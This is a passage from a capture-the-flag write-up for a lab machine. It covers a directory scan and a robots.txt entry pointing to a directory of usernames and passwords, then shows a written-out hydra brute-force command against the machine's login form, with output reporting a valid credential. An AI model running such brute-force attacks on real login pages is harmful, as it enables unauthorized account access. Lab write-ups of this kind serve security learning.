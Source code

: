 ```
+ http://10.10.39.48/server-status (CODE:403|SIZE:276)                                                                   
                                                                                                                         
-----------------
END_TIME: Sun Sep 20 16:17:49 2020
DOWNLOADED: 4612 - FOUND: 3
```

And we can see that `robots.txt` file was detected. So, can go there and check if some information is available over there.

```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep
```

We can see that `/admin-dir` has been disallowed but for the robots we can definitely and check it out. 

![admin-dir](./.images/admin-dir.png)

We can see there are two files, `userid` and `credentials.txt`. We can open them and save both the files. It appears that `userid` contains a list of usernames and `credentials.txt` contains a list of passwords. We can use these files along with hydra to bruteforce login on the `/sUp3r-s3cr3t` login page. 

While trying to login with default credentials and SQLi attacks, I observed that the requests were taking me to `sUp3r-s3cr3t\authenticate.php`. Hence, we must use this path to perform the bruteforce attack.

```
tester@kali:~/Downloads/tartarus$ hydra -L userid -P credentials.txt 10.10.39.48 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-20 16:28:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.39.48:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect
[80][http-post-form] host: 10.10.39.48   login: ****   password: ************
[STATUS] 1153.00 tries/min, 1153 tries in 00:01h, 160 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-20 16:29:30
```
